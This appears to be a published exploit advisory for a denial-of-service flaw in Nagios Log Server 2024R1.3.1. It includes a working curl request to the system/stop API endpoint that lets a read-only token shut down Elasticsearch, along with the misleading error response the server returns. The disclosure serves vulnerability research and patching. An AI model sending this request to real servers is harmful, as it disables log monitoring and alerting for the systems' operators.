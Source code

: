 # Remote Elasticsearch Shutdown via API in Nagios Log Server 2024R1.3.1

[▶️ PoC Demo](https://www.youtube.com/watch?v=YPK0-b9GeV8&ab_channel=SethKraft)

#### Date: 2025-04-02
#### Exploit Author: Seth Kraft
#### Vendor Homepage: https://www.nagios.com/
#### Vendor Changelog: https://www.nagios.com/changelog/#log-server
#### Software Link: https://assets.nagios.com/downloads/nagios-log-server/versions.php
#### Version: 2024R1.3.1 and below
#### Tested On: Nagios Log Server 2024R1.3.1 (default configuration, Ubuntu 20.04)
#### CWE: CWE-284, CWE-285
#### CVSS: 8.3 (CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:N/S:C/VC:N/VI:L/VA:H)
#### Type: Denial of Service (DoS)

## Summary
A vulnerability exists in the latest version (2024R1.3.1) of Nagios Log Server that allows a low-privileged user with read-only API access to remotely stop the Elasticsearch service via API call.

Elasticsearch is a core dependency of Nagios Log Server. If it is stopped, logs cannot be indexed, alerts cannot be generated, and historical data retrieval fails, leading to a Denial of Service (DoS) condition. 

## Details
The API endpoint `system/stop` allows any user with API access to stop the Elasticsearch service, effectively disabling log monitoring.

## Vulnerable Endpoint:
`http://<target-ip>/nagioslogserver/index.php/api/system/stop?subsystem=elasticsearch&token=<valid_token>`

## Proof of Concept (PoC)
**Step 1: Send API Request to Stop Elasticsearch Response (Incorrect Error Message)**

`curl -X POST "http://<target-ip>/nagioslogserver/index.php/api/system/stop?subsystem=elasticsearch&token=<valid_token>"`

**Response (Incorrect Error Message)**

```json
{
"status": "error",
"message": "Could not stop elasticsearch"
}
```

> Despite the misleading error message — Elasticsearch actually stops, causing Nagios Log Server to lose logging functionality.

**Step 2: Verify Elasticsearch Is Down**
![image](https://github.com/user-attachments/assets/c0a36824-4179-491a-ae98-f1186aeac9b6)
> Nagios Log Server will remain inaccessible until the Elasticsearch service is started again.
